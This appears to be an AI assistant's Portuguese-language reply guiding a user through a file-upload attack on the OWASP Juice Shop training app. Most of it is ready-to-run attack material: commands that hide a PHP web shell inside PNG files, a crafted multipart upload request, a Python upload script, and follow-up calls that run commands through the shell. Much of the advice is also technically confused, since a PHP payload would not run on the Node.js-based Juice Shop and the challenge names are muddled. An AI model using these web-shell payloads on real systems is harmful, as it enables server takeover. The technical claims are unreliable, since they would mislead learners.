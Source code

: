 Excelente! Esse erro revela que é o **OWASP Juice Shop** - um CTF muito conhecido. Vamos explorar isso especificamente.

## 🎯 Para o Juice Shop, a abordagem é diferente:

### ❌ O problema:
O Juice Shop valida **verdadeiramente** o tipo MIME do arquivo, não apenas a extensão.

### ✅ Solução correta para Juice Shop:

## 1. **Criar um arquivo PNG válido com código PHP injetado**

Crie `shell.png` com:

```bash
# Método 1 - Usar exiftool (mais eficaz)
exiftool -Comment='<?php system($_GET["cmd"]); ?>' image.png

# Método 2 - Criar manualmente
echo -e '\x89PNG\r\n\x1a\n<?php system($_GET["cmd"]); ?>' > shell.png
```

## 2. **Ou usar uma imagem real com metadata**

```bash
# Baixar uma imagem pequena
wget https://via.placeholder.com/150x150.png -O image.png

# Injeta PHP nos metadados
exiftool -Comment='<?php system($_REQUEST["cmd"]); ?>' image.png
```

## 3. **Upload no Juice Shop**

O endpoint geralmente é:
- **Profile → Upload Image**
- Ou através da API: `/api/ImageUpload`

## 4. **Explorar a vulnerabilidade de verificação inadequada**

No Juice Shop, o desafio específico é:
- **"File Upload"** ou **"XXE"** dependendo da versão
- A aplicação confia no type MIME enviado pelo cliente

## 5. **Técnica alternativa - Burlar via Burp Suite**

Intercepte a requisição com Burp e modifique:

```http
POST /api/ImageUpload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ

------WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="shell.png"
Content-Type: image/png

<?php system($_GET['cmd']); ?>
------WebKitFormBoundaryXYZ--
```

## 6. **Script Python automatizado para Juice Shop**

```python
import requests

target = "http://localhost:3000"
file_path = "shell.png"

# Criar arquivo PNG com payload
with open(file_path, 'wb') as f:
    f.write(b'\x89PNG\r\n\x1a\n<?php system($_GET["cmd"]); ?>')

# Fazer upload
files = {'file': ('shell.png', open(file_path, 'rb'), 'image/png')}
response = requests.post(f"{target}/api/ImageUpload", files=files)

print(f"Status: {response.status_code}")
print(f"Response: {response.text}")
```

## 7. **Comandos úteis após conseguir upload**

```bash
# Procurar onde as imagens são salvas
find / -name "*.png" 2>/dev/null | grep upload

# Verificar se o PHP é executado
curl "http://alvo/uploads/shell.png?cmd=whoami"
```

## 🎯 **Solução mais direta para Juice Shop:**

1. **Use exiftool para injetar o payload:**
```bash
sudo apt install libimage-exiftool-perl
exiftool -Comment='<?php system($_GET["cmd"]); ?>' imagem_original.png
```

2. **Faça upload da imagem modificada**

3. **Acesse via:**
```
http://alvo/assets/public/images/uploads/shell.png?cmd=whoami
```

**Dica:** No Juice Shop, muitas vezes a flag está nos comentários do código ou requer que você explore outras vulnerabilidades combinadas.

Quer que eu detalhe mais alguma parte específica?
